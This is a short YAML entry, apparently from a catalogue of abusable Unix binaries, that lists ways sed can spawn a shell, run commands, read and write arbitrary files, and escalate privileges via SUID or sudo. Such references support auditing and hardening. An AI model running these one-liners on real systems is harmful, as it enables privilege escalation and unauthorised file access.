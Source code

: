 ```yaml
---
functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
    - description: GNU version only. The resulting shell is not a proper TTY shell.
      code: sed e
  command:
    - description: GNU version only.
      code: sed -n '1e id' /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/DATA/w $LFILE" /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0' /etc/hosts
---
```

